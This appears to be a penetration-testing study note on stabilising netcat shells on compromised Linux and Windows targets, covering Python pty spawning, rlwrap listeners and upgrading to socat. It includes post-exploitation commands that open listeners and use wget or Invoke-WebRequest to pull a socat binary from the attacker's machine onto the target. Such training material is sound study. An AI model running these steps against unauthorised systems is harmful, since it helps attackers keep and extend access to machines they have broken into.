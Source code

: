**Below we are discussing three techniques to stabilise netcat shell**

---
1. Technique 1: Python
- The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default.
- This is a three stage process:
	1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
		- At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things:
		- first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
		- It then foregrounds the shell, thus completing the process.
**The full technique can be seen here:**
![[shells5.png]]
**Note** - if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

2. Technique 2: rlwrap
	- rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
	- rlwrap is not installed by default on Kali, so first install it with
```python
sudo apt install rlwrap
```

To use rlwrap, we invoke a slightly different listener:
```python
rlwrap nc -lvnp <port>
```

- This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
- When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

3.  Technique 3: Socat
	- The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.
	- this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.
	- To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.
		- A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
		- For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`)
**Changing your terminal tty size**
1. First, open another terminal and run `stty -a`. 
![[shells6.png]]
Note down the values for "rows" and columns:

2. Next, in your reverse/bind shell, type in:
`stty rows <number>`  

and

`stty cols <number>`